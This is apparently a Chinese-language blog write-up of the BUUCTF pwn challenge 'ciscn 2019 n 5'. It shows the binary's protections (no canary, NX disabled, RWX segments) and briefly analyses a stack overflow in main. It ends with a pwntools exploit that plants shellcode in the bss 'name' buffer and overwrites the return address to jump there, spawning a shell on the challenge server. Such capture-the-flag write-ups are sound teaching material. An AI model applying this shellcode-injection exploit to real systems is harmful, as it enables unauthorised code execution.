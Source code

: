 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 5
date: 2022-3-22 16:17:03
permalink: /pages/2e1547494524d18a
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 n 5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_n_5/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

主函数及函数表如下

![ciscn_2019_n_5_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_n_5_1.png)

## 思路分析

1. 目前信息：
   - `main`函数内明显的栈溢出漏洞
   - No PIE
   - 有`RWX`权限
1. 补充：
   - `name`变量在`bss`段长度为0x64字节如下

![ciscn_2019_n_5_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_n_5_2.png)

3. 思路：
   - 可栈溢出，有`RWX`权限，考虑在`name`变量处写入`shellcode`，返回溢出劫持返回地址到该处以获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_5/ciscn_2019_n_5'
io = remote('node4.buuoj.cn', 28134)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x20+8
bss_name = 0x601080
shellcode = asm(shellcraft.sh())
payload = flat([shellcode])
io.sendlineafter(' name\n', payload)
payload = flat(['a'*padding, bss_name])
io.sendlineafter(' to me?\n', payload)
io.interactive()
```